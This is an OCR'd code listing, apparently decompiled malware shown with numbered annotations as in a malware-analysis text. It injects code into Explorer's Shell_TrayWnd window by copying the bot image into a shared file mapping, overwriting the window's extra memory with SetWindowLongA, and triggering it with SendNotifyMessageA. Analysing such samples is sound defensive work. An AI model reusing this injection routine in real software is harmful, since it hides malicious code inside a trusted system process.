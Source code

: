 ```
    memset(TargetBuffer, 0, 0x150u);

    qmemcpy(TargetBuffer->code, sub_408468, sizeof(TargetBuffer->code));

    hKernel32 = GetModuleHandleA("kernel32.dll");

 ➋ TargetBuffer->CloseHandle = GetExport(hKernel32, "CloseHandle", 0);

    TargetBuffer->MapViewOfFile = GetExport(hKernel32, "MapViewOfFile", 0);

    TargetBuffer->OpenFileMappingA = GetExport(hKernel32, "OpenFileMappingA", 0);

    TargetBuffer->CreateThread = GetExport(hKernel32, "CreateThread", 0);

    hUser32 = GetModuleHandleA("user32.dll");

    TargetBuffer->SetWindowLongA = GetExport(hUser32, "SetWindowLongA", 0);

 ➌ TargetBuffer_ = ConstructTargetBuffer(TargetBuffer);

    if ( TargetBuffer_ )

    {

      hWnd = FindWindowA("Shell_TrayWnd", 0);

   ➍ originalWinProc = GetWindowLongA(hWnd, 0);

      if ( hWnd && originalWinProc )

      {

        TargetBuffer->MappingName[10] = 0;

        TargetBuffer->Shell_TrayWnd = hWnd;

        TargetBuffer->Shell_TrayWnd_Long_0 = originalWinProc;

        TargetBuffer->icmnf = GetExport(CurrentImageAllocBase, "icmnf", 1);

        qmemcpy(&TargetBuffer->field07, &MappingSize, 0xCu);

        TargetBuffer->gpi = GetExport(CurrentImageAllocBase, "gpi", 1);

        BotId = InitBid();

        lstrcpynA(TargetBuffer->MappingName, BotId, 10);

        if ( CopyToFileMappingAndReloc(TargetBuffer->MappingName, CurrentImageAllocBase,

                                       CurrentImageSizeOfImage, &hObject) )

        {

          BotEvent = CreateBotEvent();

          if ( BotEvent )

          {

         ➎ SetWindowLongA(hWnd, 0, &TargetBuffer_->pKiUserApcDispatcher);

         ➏ SendNotifyMessageA(hWnd, 0xFu, 0, 0);
```